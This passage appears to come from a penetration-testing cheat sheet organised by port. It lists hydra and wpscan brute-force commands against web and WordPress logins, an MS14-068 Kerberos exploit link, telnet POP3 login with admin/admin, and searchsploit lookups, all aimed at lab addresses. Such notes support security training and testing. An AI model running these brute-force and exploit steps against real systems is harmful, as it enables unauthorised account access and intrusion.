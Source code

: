 - Image Data

```
$ exiftool <image>
```

- Brute-Force

```
$ hydra -V -L usernames.txt -P passwords.txt 192.168.1.101 http-get-form '/dvwa/vulnerabilities/brute/index.php:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect.:H=Cookie: security;low;PHPSESSID=1ce2ba52deb9a642ed57a0d34d6c5dfe'
OR
$ hydra -l none -P rockyou.txt 10.10.10.43 https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+Inproc_login=true:Incorrect password" -t 64 -V
OR
$ wpscan --url http://10.11.1.234/wp-login -v -P ~/<wordlist> -U elliot -t 50
```

Port 88 (KERBEROS)
------------------

- Check MS14-068 (if you see a machine with port 88 open you can be fairly certain that it is a Windows Domain Controller)

```
https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS14-068
```

Port 110 (POP3)
---------------

Connect and login

```
$ telnet <IP address> 110
USER admin
PASS admin
```

- Display emails

```
LIST
```

- Retrieve email

```
RETR 1
```

- Nmap NSE Scripts

```
$ ls -la /usr/share/nmap/scripts | grep "pop3"
```

- Exploit Version

```
$ searchsploit <term>
```
